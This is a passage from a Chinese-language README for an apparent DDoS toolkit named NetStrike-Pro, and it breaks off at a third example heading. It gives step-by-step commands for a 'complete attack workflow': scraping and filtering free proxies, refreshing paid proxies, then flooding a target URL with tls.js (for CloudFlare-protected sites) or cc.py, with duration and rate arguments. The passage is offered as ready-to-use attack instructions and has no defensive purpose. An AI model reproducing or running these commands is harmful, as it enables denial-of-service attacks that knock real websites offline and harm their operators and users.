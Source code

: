**筛选免费代理** (`legacy/超高速筛选.py`):
```bash
cd NetStrike-Pro/legacy
python3 超高速筛选.py
```

**抓取新代理** (`legacy/新建文件夹/scrape.py`):
```bash
cd NetStrike-Pro/legacy
python3 新建文件夹/scrape.py
```

---

## 💡 实战示例

### 示例 1: 完整攻击流程

```bash
cd NetStrike-Pro/legacy

# 步骤 1: 刷新付费代理
./refresh_proxy.sh
# 输出: ✅ 提取成功！999 个代理

# 步骤 2: 选择攻击方法
# CloudFlare 站点使用 tls.js
node 新建文件夹/tls.js https://目标.com 180 128 10 proxy_paid.txt

# 普通站点使用 cc.py
python3 cc.py -url https://目标.com -f proxy_paid.txt -v http -s 180
```

### 示例 2: 使用免费代理

```bash
cd NetStrike-Pro/legacy

# 步骤 1: 抓取免费代理
python3 新建文件夹/scrape.py
# 输出: proxies.txt（10万+ 代理）

# 步骤 2: 筛选有效代理
python3 超高速筛选.py
# 输入目标: https://目标.com
# 输出: filtered_proxies.txt（有效代理）

# 步骤 3: 使用筛选后的代理
python3 cc.py -url https://目标.com -f filtered_proxies.txt -v 5 -s 180
```

### 示例 3: 多方法组合
